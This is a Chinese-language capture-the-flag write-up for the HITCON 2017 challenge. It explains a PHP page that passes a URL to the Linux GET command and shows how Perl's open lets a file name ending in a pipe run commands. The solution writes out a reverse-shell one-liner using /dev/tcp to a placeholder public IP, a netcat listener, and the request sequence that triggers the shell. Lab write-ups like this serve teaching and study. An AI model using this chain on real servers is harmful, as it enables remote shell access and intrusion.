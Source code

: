 ```yaml
---
题目地址：（HITCON2017）题目并不是你想要的http://117.50.3.97:8004
---
```

 
直接点开源码，读一下
```
<?php 
    $sandbox = "sandbox/" . md5("orange" . $_SERVER["REMOTE_ADDR"]);   //定义一个路径
    @mkdir($sandbox);  //创建路径
    @chdir($sandbox);  //切换到这个路径

    $data = shell_exec("GET " . escapeshellarg($_GET["url"]));  // escapeshellarg是将字符转码成可以再命令行里面执行的 会转义单引号，只能传递一个参数不能执行不同的命令
    $info = pathinfo($_GET["filename"]); //返回路径中有关信息会返回一个数组，里面有文件名，路径，文件后缀等等信息，比如/etc/httpd/conf/httpd.conf 返回的dirname里面就是/etc/httpd/conf
    $dir  = str_replace(".", "", basename($info["dirname"]));   //basename返回路径中文件名的部分 接着上面的例子  basename($info["dirname"])的结果就是conf
    @mkdir($dir); //创建路径
    @chdir($dir); //切换到路径
    @file_put_contents(basename($info["basename"]), $data); //将data写到basename($info["basename"])文件里面
    highlight_file(__FILE__); 
```
测试上传写php一句话无效，上传的目录里面根本不解析php

相关知识点：
> linux GET命令可用于向WWW服务器和本地文件系统发送请求。从stdin读取POST和PUT方法的请求内容。响应的内容打印在stdout上。错误消息打印在stderr上。程序返回一个状态值，指示失败的URL数。
详情可以参考：https://www.lifewire.com/get-linux-command-4093526
**注意这里面GET是可以GET本地文件的**
而GET命令有一个命令执行的漏洞：
![title](https://i.loli.net/2019/04/26/5cc2f761b3aa3.jpg)
[GET的命令执行漏洞](https://err0rzz.github.io/2017/11/14/GET%E7%9A%84%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C%E6%BC%8F%E6%B4%9E/) 这个博客里面做了比较详细的分析，是因为perl的open可以执行命令 而GET命令刚好使用了这个函数

# 解题思路 
使用写入名为`xx|`的bash脚本，利用GET命令的命令执行来执行脚本payload如下：
```
先在公网vps web目录下写入反弹shell一句话
bash -i >& /dev/tcp/公网IP/公网端口 0>&1
然后写入一个的文件
http://117.50.3.97:8004/?url=http://ipv4.ssssdl.xyz/aa.txt&filename=a
写入bash a|文件，相当于例子中的touch id|
http://117.50.3.97:8004/?url=&filename=bash a|
公网服务器监听端口反弹shell
nc -lvp 7777
尝试命令执行：
http://117.50.3.97:8004/?url=file:bash%20a|&filename=dadsdasd
```


